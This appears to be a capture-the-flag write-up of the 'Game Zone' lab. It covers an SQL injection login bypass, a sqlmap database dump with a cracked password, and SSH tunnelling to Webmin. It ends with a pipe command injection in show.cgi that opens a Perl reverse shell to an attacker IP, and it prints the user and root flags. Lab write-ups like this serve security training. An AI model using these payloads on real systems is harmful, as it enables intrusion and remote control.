 > Game Zone

We are prompted with a forum and we have login here. Looks like we can try to SQLi . Trying username `admin`:`' OR 1=1 -- -` but didn't work. So mayne the user `admin` is not present. Let's try the username as `' OR 1=1 -- -` and any password gives us access to `portal.php`. Let's intercept the request to `portal.php` and save it as `request.txt`.

# sqlmap

sqlmap -r request.txt --dbms=mysql --dump --batch

```
Database: db
Table: users
[1 entry]
+------------------------------------------------------------------+----------+
| pwd                                                              | username |
+------------------------------------------------------------------+----------+
| ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 | agent47  |
+------------------------------------------------------------------+----------+
```

And we got another table `post` with the game names and description there. I cracked the password in online `videogamer124`.

# user.txt

```
649ac17b1480ac13ef1e4fa579dac95c
```

Let's look at socker connections.

ss -tulpn

```
Netid  State      Recv-Q Send-Q Local Address:Port               Peer Address:Port              
udp    UNCONN     0      0       *:10000               *:*                  
udp    UNCONN     0      0       *:68                  *:*                  
tcp    LISTEN     0      128     *:10000               *:*                  
tcp    LISTEN     0      128     *:22                  *:*                  
tcp    LISTEN     0      80     127.0.0.1:3306                *:*                  
tcp    LISTEN     0      128    :::80                 :::*                  
tcp    LISTEN     0      128    :::22                 :::*    
```

Looks like port 10000 is blocked via firewall. Let's try accessing this through ssh.

`ssh -L 10000:localhost:10000 agent47@10.10.6.41`. Accessing `http://localhost:10000/` we are prompted with webmin. And we can use the same creds for webin and login.

We got a metasploit module and looking at the code we can understand that we can supply any filename followed by a pipe and then we can inject our payload. 

# POC

1. (local) sudo tcpdump -i tun0 icmp
2. http://localhost:10000/file/show.cgi/show.cgi/bin/A|ping%20-c%203%2010.8.107.21|

Now let's try to get a shell!!

# Perl payload

`http://localhost:10000/file/show.cgi/bin/4uIPiqNld|perl%20-e%20'use%20Socket;$i=%2210.8.107.21%22;$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname(%22tcp%22));if(connect(S,sockaddr_in($p,inet_aton($i))))%7Bopen(STDIN,%22%3E&S%22);open(STDOUT,%22%3E&S%22);open(STDERR,%22%3E&S%22);exec(%22/bin/sh%20-i%22);%7D;'|`

# root.txt

```
a4b945830144bdd71908d12d902adeee
```